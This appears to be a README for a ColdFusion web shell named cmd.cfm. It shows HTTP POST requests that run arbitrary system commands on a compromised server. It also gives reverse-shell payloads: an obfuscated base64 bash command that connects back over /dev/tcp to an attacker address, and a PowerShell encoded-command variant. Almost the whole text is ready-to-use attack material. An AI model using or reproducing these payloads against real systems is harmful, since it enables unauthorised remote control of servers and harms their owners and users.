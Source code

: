 How to use:

```
POST /path/cmd.cfm HTTP/1.1
Host: <your host>
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

cmd=ls&op=-la
```
`op` is the same arguments such as `ls -la`

or `cmd.exe /c dir` as: `cmd=cmd.exe&op=/c+dir`
![image](https://user-images.githubusercontent.com/24661746/131243971-d64831c2-3ba6-4df4-af26-bf6e60cdfd65.png)

Revershell for this case :
Linux:
```
POST /path/cmd.cfm HTTP/1.1
Host: <your host>
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

cmd=/bin/bash&op=-c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNC8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```
`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNC8xMjM0IDA+JjE=` change base64 from `genRevershell.py` and encode as URL( Ctrl + U)

![image](https://user-images.githubusercontent.com/24661746/131244367-30cb021e-fc58-45fd-8f66-13d27e09ed6e.png)

For Windows:
```
POST /path/cmd.cfm HTTP/1.1
Host: <your host>
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

cmd=powershell&op=-EncodedCommand <output from `genRevershell.py`> and encode as URL( Ctrl + U)
```
![image](https://user-images.githubusercontent.com/24661746/131244608-87c38b49-1269-4616-a167-cd78da99d63f.png)
